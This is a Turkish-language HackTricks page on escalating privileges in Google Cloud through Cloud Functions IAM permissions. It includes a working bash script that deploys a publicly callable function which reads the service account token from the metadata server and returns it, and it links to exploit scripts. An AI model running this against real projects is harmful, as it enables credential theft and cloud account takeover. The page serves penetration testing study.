# GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Cloud Functions hakkında daha fazla bilgi:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Bu yetkilere sahip bir saldırgan, **keyfi (kötü niyetli) kodla yeni bir Cloud Function oluşturabilir ve ona bir Service Account atayabilir**. Ardından, yetkileri artırmak için metadata'dan Service Account token'ını sızdırabilir.\
Fonksiyonu tetiklemek için bazı yetkilere ihtiyaç duyulabilir.

Bu yöntem için istismar betikleri [burada](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) ve [burada](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) bulunabilir ve önceden oluşturulmuş .zip dosyası [burada](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions) mevcuttur.

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Bu yetkilere sahip bir saldırgan, **bir Fonksiyonun kodunu değiştirebilir ve hatta ekli olan hizmet hesabını değiştirebilir** ve token'ı dışarı sızdırma amacı güdebilir.

{% hint style="danger" %}
Cloud functions dağıtmak için, varsayılan compute service account veya imajı oluşturmak için kullanılan service account üzerinde actAs izinlerine de ihtiyacınız olacak.
{% endhint %}

Ekstra yetkiler, 1. versiyon cloudfunctions için `.call` izni veya fonksiyonu tetiklemek için `role/run.invoker` rolü gibi yetkilere ihtiyaç duyulabilir.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# If you don't have permissions to change the IAM policy, the "--allow-unauthenticated" will just fail and do nothing

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
Bu yöntem için istismar betiği [burada](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py) bulunabilir.

### `cloudfunctions.functions.sourceCodeSet`

Bu izinle, bir **dosyayı bir fonksiyon kovasına yüklemek için imzalı bir URL alabilirsiniz (ancak fonksiyonun kodu değişmeyecek, hala güncellemeniz gerekecek)**
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Saldırganlar açısından bu iznin ne kadar faydalı olacağından emin değilim, ama bilmekte fayda var.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Önceki **`.update`** veya **`.create`** ayrıcalıklarından herhangi birini kendinize vererek yükseltme yapın.

### `cloudfunctions.functions.update`

Sadece **`cloudfunctions`** izinlerine sahip olmak, **`iam.serviceAccounts.actAs`** olmadan fonksiyonu güncelleyemezsiniz, BU YÜKSELTME İÇİN GEÇERLİ DEĞİLDİR.

### Bucket Yazma İzinleri

Cloud Functions kodunun depolandığı **bucket üzerinde yazma izinlerine** sahip bir saldırganın, `function_code.zip` dosyasını **değiştirerek** kodu **rastgele** çalıştırabileceğini düşünebilirsiniz.

{% hint style="success" %}
**Ancak, bu doğru değil, sadece bucket içindeki kodu değiştirmek, çalıştırılan kodu değiştirmeyecektir.**
{% endhint %}

## Referanslar

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.**

</details>
{% endhint %}
